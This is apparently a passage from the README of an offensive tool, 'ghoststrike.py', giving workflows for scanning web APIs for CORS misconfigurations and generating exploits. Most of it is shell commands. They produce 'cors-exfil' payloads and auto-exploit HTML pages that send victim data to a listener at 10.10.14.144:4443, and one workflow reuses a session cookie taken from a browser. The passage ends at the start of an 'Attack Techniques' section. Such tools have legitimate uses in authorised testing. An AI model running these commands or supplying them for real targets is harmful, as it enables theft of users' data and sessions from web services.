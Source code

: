 ### Workflow 2: Scan → Choose → Exploit

```bash
# Step 1: Scan and identify
python3 ghoststrike.py --scan -u https://target.com/api/profile -v

# Step 2: Review available attacks in output

# Step 3: Generate specific exploit
python3 ghoststrike.py --generate cors-exfil \
  -t https://target.com/api/profile \
  -e https://10.10.14.144:4443/log \
  --element-id userData \
  --server --ssl --port 4443
```

### Workflow 3: Multi-Target Assessment

```bash
# Scan multiple endpoints
for endpoint in /api/users /api/profile /admin/data; do
  python3 ghoststrike.py --scan -u "https://target.com$endpoint" -v \
    > "scan_${endpoint//\//_}.txt"
done

# Generate exploits for vulnerable endpoints
python3 ghoststrike.py --scan -u https://target.com/api/users \
  --auto-exploit -e https://10.10.14.144:4443/log \
  -o exploit_users.html
```

### Workflow 4: Authenticated Scanning

```bash
# Extract session cookie from browser
SESSION="eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9..."

# Scan with authentication
python3 ghoststrike.py --scan -u https://target.com/api/data \
  -c "session=$SESSION" \
  -H "Authorization: Bearer token123" \
  --auto-exploit -e https://10.10.14.144:4443/log \
  --server --ssl --port 4443
```

---

## Attack Techniques

### 1. CORS Arbitrary Origin Exploitation

**Vulnerability:** Server reflects any origin in `Access-Control-Allow-Origin`
